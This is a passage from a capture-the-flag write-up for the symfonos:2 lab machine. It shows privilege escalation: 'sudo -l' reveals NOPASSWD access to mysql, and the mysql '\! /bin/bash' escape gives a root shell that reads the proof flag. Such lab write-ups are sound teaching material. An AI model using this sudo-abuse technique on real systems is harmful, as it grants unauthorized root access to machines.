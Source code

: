 Using it allows us to get a shell on the machine as the 'cronus' user we found earlier. 

    $ sudo -l

    Matching Defaults entries for cronus on symfonos2:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User cronus may run the following commands on symfonos2:
        (root) NOPASSWD: /usr/bin/mysql


It seems we can run mysql as root. 

    $ sudo mysql -uroot

    MariaDB [(none)]> show databases;

    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | librenms           |
    | mysql              |
    | performance_schema |
    +--------------------+

After playing with it for a while, I didn't find anything in any database or table. After reading the manual page for 'mysql', turns out 'mysql' has an options to run bash commands, we can use '\\! /bin/bash' and get a shell as root.

    $ sudo mysql -uroot
    MariaDB [(none)]> \! /bin/bash

>

    # uname -a

![image](https://user-images.githubusercontent.com/76552238/158076806-c1b0bc6f-f616-4b58-a703-e877c07849f8.png)

We can now go to the directory 'root' and read the proof.txt file.

> ### ***/root/proof.txt:***

            Congrats on rooting symfonos:2!

            ,   ,
            ,-`{-`/
        ,-~ , \ {-~~-,
        ,~  ,   ,`,-~~-,`,
    ,`   ,   { {      } }                                             }/
    ;     ,--/`\ \    / /                                     }/      /,/
    ;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
    ; /   `       } } `, `-`-.___                            / `,  ,/  `,/
    \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
    `        { {                                     __  /  ,`/   ,`,;
            /   \ \                                 _,`, `{  `,{   `,`;`
        {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
        \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
            `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                    / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                    /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
        /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
        /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
        / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \